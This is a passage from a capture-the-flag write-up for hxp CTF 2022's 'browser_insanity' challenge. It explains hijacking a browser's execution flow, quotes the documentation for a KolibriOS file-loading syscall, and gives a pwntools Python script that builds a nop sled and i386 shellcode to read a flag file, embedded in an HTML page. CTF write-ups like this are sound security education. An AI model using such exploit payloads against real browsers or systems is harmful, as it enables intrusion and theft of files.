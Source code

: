 
As we can see, `esi` register points to our data, so we want to jump to `0x31c54b` (`1\xc5K`), so the `K` will be turned into `k`, which means that the code will jump to `0x31c56b`. We can handle that by putting bunch of `nop`s in our payload. We also want to load a file into memory, so we have to use some syscalls to do it. Quick look at the docs reveals needed syscall:

```
======================================================================
========== Function 68, subfunction 27 - load file ===================
======================================================================
Parameters:
  * eax = 68 - function number
  * ebx = 27 - subfunction number
  * ecx = pointer to the string with path to file,
    rules of path forming can be found in function 70 description.
Returned value:
  * eax = pointer to the loaded file, or zero
  * edx = size of the loaded file, or zero
Remarks:
  * function loads file and unpacks, if necessary
  * Before this call one must initialize process heap by call to
    subfunction 11.  
```

Code for crafting the payload has the following form (it is also available on my [github](https://github.com/rivit98/ctf-writeups/tree/master/hxpctf_2022/browser_insanity)):

```python
from pwn import *

with open("index.html", 'rb') as f:
    templ = f.read()

payload_start = 0x31c552
str_addr = payload_start+0x80
flag_location = b'/hd0/1/flag.txt\0'

context.arch = 'i386'
payload = asm('nop') * 0x30 +  asm(f"""
mov eax, 0x44
mov ebx, 0x1b
mov ecx, {str_addr}
int 0x40
""")

padding = (str_addr - payload_start) - len(payload)
payload += b'\x90' * padding
payload += flag_location

templ = templ.replace(b'REPLACE', payload).replace(b'JUMP_ADDR', p32(payload_start).replace(p8(0), b''))

with open("index.html2", 'wb') as f:
    f.write(templ)
```
